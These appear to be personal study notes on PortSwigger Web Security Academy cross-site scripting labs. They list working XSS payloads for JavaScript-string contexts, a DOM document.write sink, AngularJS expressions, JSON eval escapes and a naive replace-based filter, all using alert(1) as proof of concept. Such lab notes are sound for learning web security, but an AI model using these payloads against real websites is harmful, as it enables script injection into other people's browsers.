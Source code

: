 
##### Reflected XSS into a JavaScript string with angle brackets HTML encoded
When angle brackets are encoded on a string:
![[Pasted image 20231001225657.png]]
Try:
```
'-alert(1)-'
'+alert(1)+'
'; alert(1) ;'
'; alert(1) ;let myVar='test
```
![[Pasted image 20231001230203.png]]

##### DOM XSS in document.write sink using source location.search inside a select element
```
var store = (new URLSearchParams(window.location.search)).get('storeId'); document.write('<select name="storeId">');
```
location.search gets the param on the URL
![[Pasted image 20231002152907.png]]
![[Pasted image 20231002152918.png]]
In this case we are asking for the storeId parameter
```
https://0af900d104ce4be181fd6b6e003b00fe.web-security-academy.net/product?productId=1&storeId="></select><img src=1 onerror=alert(1)>
```

##### AngularJS relfected XSS
```
{{constructor.constructor('alert(1)')()}}
```

##### JSON strings escape XSS on eval javascript function with double quotes html encoded
```
\"+alert(1)}//
```
Note that we need to comment the rest of the JSON query


##### replace function bypass
```
   function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

```
<><img src=1 onerror=alert(1)>
```


